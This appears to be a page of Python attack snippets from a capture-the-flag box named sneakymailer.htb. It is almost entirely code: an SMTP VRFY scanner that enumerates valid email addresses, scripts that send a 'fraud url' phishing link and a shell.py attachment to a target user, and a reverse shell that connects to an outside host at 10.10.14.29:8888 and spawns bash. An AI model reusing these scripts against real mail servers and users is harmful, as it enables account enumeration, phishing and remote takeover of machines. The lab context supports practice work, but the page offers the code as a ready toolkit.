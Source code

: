 Python - SMTP

**Create an smtp scanner to check for valid email addresses**
**
**
import smtplib

print("Welcome, welcome")

connex = smtplib.SMTP("10.10.10.197")
print("Connection established")

with open("emails.lst", "r") as raw_emails:

    emails = [ line.strip() for line in raw_emails.read().split("\n") if line ]

for email in emails:
    print(connex.verify(email))

connex.quit()
print("exit")

* * *

**Send an email to all the users in a list with a fraud url in it**
**
**
import smtplib
from email.mime.text import MIMEText

print("Welcome, welcome")

connex = smtplib.SMTP("10.10.10.197")
print("Connection established")

message = MIMEText(u"http://10.10.14.29/test.txt")

#connex.set_debuglevel(1)
with open("emails.lst", "r") as raw_emails:
    emails = [ line.strip() for line in raw_emails.read().split("\n") if line ]

emails = ["paulbyrd@sneakymailer.htb"]

for email in emails:

    connex.sendmail("zoritaserrano@sneakymailer.htb", email, message.as_string())

    print(f"Email sent to {email}")

connex.quit()
print("exit")

* * *

**Send an email to a list, with an attachment**

import smtplib
from email.mime.text import MIMEText
from os.path import basename
from email.mime.application import MIMEApplication
from email.mime.multipart import MIMEMultipart
from email.utils import COMMASPACE, formatdate

print("Welcome, welcome")

connex = smtplib.SMTP("10.10.10.197")
print("Connection established")

message = MIMEMultipart()
message.attach(MIMEText(u"http://10.10.14.29/shell.php"))

files = ["shell.py"]

for f in files or []:
    with open(f, "rb") as fil:
        part = MIMEApplication(
            fil.read(),
            Name=basename(f)
        )
    # After the file is closed
    part['Content-Disposition'] = 'attachment; filename="%s"' % basename(f)
    message.attach(part)

print("Files parsed")

emails = ["paulbyrd@sneakymailer.htb"]

for email in emails:

    connex.sendmail("zoritaserrano@sneakymailer.htb", email, message.as_string())

    print(f"Email sent to {email}")

connex.quit()
print("exit")

* * *

**Reverse shell**

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.29",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")

* * *